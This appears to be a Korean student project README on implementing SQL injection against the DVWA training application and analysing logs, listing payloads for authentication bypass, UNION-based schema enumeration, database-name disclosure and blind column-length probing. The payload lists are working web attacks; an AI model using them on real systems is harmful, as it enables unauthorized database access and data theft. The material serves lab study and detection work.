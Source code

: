 ##  SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
###  1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #

이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.

---
### 2. UNION SELECT
UNION은 두 개 이상의 SELECT문의 결과를 하나의 결과로 만들어줍니다. 이때 각 SELECT문은 같은 수의 컬럼을 가져야 하며, 각 열의 데이터 타입이 일치해야 합니다. 이러한 특성을 이용해 데이터베이스의 구조나 정보를 알아낼 수 있습니다. 사용된 payload를 확인해보면 컬럼의 길이, 테이블 이름, 컬럼의 데이터를 알아내는데 사용되었습니다.
- ' UNION SELECT 1 #
- ' UNION SELECT 1, 2 #
- ' UNION SELECT 1, 2, 3 #
- ' UNION SELECT 1, table_name FROM information_schema.tables #
- ' UNION SELECT table_name,2 FROM information_schema.tables #
- ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='dvwa' #

위 예시의 쿼리문들을 이용해 컬럼의 개수 및 데이터베이스의 정보를 알아내는데 사용할 수 있습니다.


---
### 3. DB 정보 확인
database() 함수는 MySQL에서 현재 연결된 데이터베이스의 이름을 반환합니다. 이 함수를 사용해 현재 사용중인 데이터베이스의 이름을 알아내 데이터베이스의 구조를 파악해 SQL 인젝션 공격을 계획할 수 있게 됩니다.
- ' UNION SELECT 1,database() #`
- ' UNION SELECT database(), 2 #`

---
### 4. 컬럼 길이 확인
특정 테이블의 컬럼 이름 길이를 알아내기 위한 payload입니다. information_schema.columns과 LENGTH() 함수를 이용해 특정 테이블의 컬럼 이름의 길이를 추측해 데이터베이스 구조를 탐색합니다.
- `1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=1) #`
- `1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=2) #`
- `1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=3) #`

위 쿼리를 보면 이름의 길이를 순차적으로 증가시키며, 데이터베이스 구조를 탐색하려는 의도임을 알 수 있습니다.

